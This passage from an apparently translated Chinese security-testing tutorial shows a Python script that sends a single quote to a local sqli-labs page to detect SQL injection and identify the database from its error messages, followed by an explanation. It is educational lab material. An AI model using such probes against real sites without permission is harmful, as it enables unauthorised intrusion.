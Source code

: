 我们将使用的脚本如下：

```py
import requests

url = “http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=”
initial = “'”
print “Testing “+ url
first = requests.post(url+initial)

if “mysql” in first.text.lower(): 
  print “Injectable MySQL detected”
elif “native client” in first.text.lower():
  print “Injectable MSSQL detected”
elif “syntax error” in first.text.lower():
  print “Injectable PostGRES detected”
elif “ORA” in first.text.lower():
  print “Injectable Oracle detected”
else:
  print “Not Injectable J J”
```

使用此脚本时产生的输出示例如下：

```py
Testing http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=
Injectable MySQL detected

```

## 工作原理…

我们导入我们的库并手动设置我们的 URL。如果需要，我们可以将其设置为`sys.argv`变量；但是，我在这里将其硬编码为了显示预期的格式。我们将初始注入字符串设置为单引号，并打印测试正在开始：

```py
url = “http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=”
initial = “'”
print “Testing “+ url
```

我们将我们的第一个请求作为我们提供的 URL 和撇号：

```py
first = requests.post(url+initial)
```

接下来的几行是我们的检测方法，用于识别底层数据库是什么。MySQL 标准错误是：

```py
You have an error in your SQL syntax; check the manual
that corresponds to your MySQL server version for the
right syntax to use near '\'' at line 1

```

相应地，我们的检测尝试读取响应文本，并搜索`MySQL`字符串，如果成功，则打印出尝试成功：
